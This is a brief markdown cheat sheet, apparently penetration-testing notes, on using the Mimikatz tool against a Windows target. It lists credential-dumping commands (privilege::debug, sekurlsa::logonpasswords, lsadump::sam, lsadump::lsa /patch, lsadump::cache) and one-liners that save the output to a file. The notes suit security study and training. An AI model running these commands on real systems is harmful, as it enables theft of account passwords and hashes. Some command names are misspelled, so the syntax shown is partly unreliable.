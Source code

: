 github: gentilkiwi/mimikatz

View & steal credentials, geneerate kerberos tickets & leverage attacks
credentials stored in memory
Credential dumping, pass-the-hash, over-pass-the-hash, pass-the-ticket, golden ticket, silver ticket

mimikatz = noisy!

#priviliege::debug
#sekurlsa::logonpasswords
#lsadump::sam
#lsadump:lsa /patch
#....

### professorbobeye
Mimikatz is a popular post-exploitation password-dumping tool to be used on a windows target as administrator.
Get the source code/binaries from 	https://github.com/gentilkiwi/mimikatz/releases
Extra info:				https://www.varonis.com/blog/what-is-mimikatz/

Usage:

	Step 1: Get the binary to the target machine
	Step 2: Run the binary (.\mimikatz.exe)
	Step 3: Use the commands you need in the interactive mimikatz terminal


Dump passwords of local target machine's users:

	Optional step 1(victim): log <name>.log		# Keep a log file of all the mimikatz output
	Step (victim): privilege::debug
	Step (victim): sekurlsa::logonpasswords

Use mimikatz commands without an interactive shell:

	syntax : .\mimikatz.exe "<cmd>" "<cmd>" exit
	example: .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
	example: .\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" exit > mimikatz_output.txt
